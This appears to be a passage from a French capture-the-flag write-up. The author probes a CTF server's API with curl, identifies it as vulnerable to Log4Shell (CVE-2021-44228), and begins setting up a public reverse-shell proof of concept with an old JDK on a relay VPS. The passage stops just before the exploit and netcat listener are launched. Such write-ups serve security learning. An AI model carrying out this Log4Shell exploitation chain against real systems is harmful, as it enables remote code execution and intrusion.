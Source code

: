 Essayons les deux endpoints maintenant que nous savons quels paramètres leurs donner:

```Bash
curl -X GET "http://213.32.7.237:26740/api/facility" -H "X-API-Key: ZbeubZbeub" 

Wrong ACCESS_KEY
```

```Bash
curl -X POST "http://213.32.7.237:26740/api/check" -d "nom=Zbeub&prenom=Zbeub"

Your are not in our database, we will Log your identity.
```

J'ai instantanément tiqué sur le mot "Log". Il est déjà étonnant de notifié l'utilisateur que son input soit loggé il en devient d'autant plus suspect quand il s'agit d'un CTF !  
De plus lorsque l'on recherche le message d'erreur de l'API sur Google afin d'identifier la techno utilisé, on remarque que "Whitelabel Error Page" est visiblement un message de SpringBoot, un framework de ... Je vous le donne en mille : Java !

Equation simple --> Réponse simple : Log + Java = Log4J !

"La vulnérabilité [CVE-2021-44228 / Log4J / Log4Shell] permet à un attaquant distant, à partir d’un serveur LDAP, d'appeler la brique JNDI de log4j d’un serveur Apache à travers un serveur exposé afin d'exécuter du code malveillant. Cela est dû à un manque de contrôle des commandes reçues par l’API JNDI permettant  d’effectuer des connexions LDAP vers des annuaires." - [Vulnérabilité Critique dans Apache Log4j activement exploitée](https://cyberveille-sante.gouv.fr/alertes/2882-vulnerabilite-critique-dans-apache-log4j-activement-exploitee-mise-jour-le-23122021)

Essayons de mettre en place un exploit pour cette vulnérabilitée. Je ne vais pas réinventer la poudre, cette faille à été le sujet de nombreux Proof Of Concept et explications ces derniers mois. Aussi je vais me servir du poc réalisé par kozmer : [log4j-shell-poc](https://github.com/kozmer/log4j-shell-poc).

Pour me simplifier la vie je vais me connecter sur mon vps afin d'avoir un serveur de rebond qui soit transparent de proxy :

On clone l'exploit sur le VPS :
```Bash
git clone https://github.com/kozmer/log4j-shell-poc.git
```

On télécharge la dépendence Java du script :
```Bash
wget https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz
tar xvf jdk-8u202-linux-x64.tar.gz
mv jdk1.8.0_202 jdk1.8.0_20
```

On installe les dépendances python :
```Bash
python3 -m venv venv
source venv/bin/activate
pip3 install -r requirements.txt
```

À l'aide de tmux je split mon terminal et je lance le script ainsi qu'un reverse shell à l'aide de netcat :
